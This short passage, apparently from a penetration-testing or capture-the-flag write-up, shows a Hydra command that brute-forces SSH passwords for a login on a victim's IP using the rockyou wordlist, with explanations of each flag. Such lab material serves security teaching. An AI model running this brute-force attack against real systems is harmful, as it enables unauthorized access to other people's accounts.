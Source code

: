 We will use the tool **Hydra**

````
hydra -s 22 -v -V -l user -P /usr/share/wordlists/rockyou.txt -t 8 victim's_ip ssh

#-s designates the port to be used
#-v and -V are for maximum verbosity
#-l selects the login name
#-P selects the wordlist
-t selects the number of parallel tasks or connections
````

![[hydra accepted.png]]